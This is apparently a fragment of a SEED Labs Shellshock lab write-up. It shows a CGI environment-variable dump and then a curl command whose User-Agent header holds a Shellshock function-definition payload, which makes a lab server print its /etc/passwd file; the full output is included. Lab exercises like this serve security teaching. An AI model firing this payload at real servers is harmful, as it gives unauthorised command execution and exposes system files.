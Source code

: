 ```
< Content-Type: text/plain
< 
****** Environment Variables ******
HTTP_HOST=10.9.0.80
HTTP_USER_AGENT=my data
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at 10.9.0.80 Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=10.9.0.80
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=41716
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
* Connection #0 to host 10.9.0.80 left intact
```



# get the server to send back the content of the /etc/passwd file

```shell
$ curl -A "() { echo hello wdnmd;}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" www.seedlab-shellshock.com/cgi-bin/vul.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
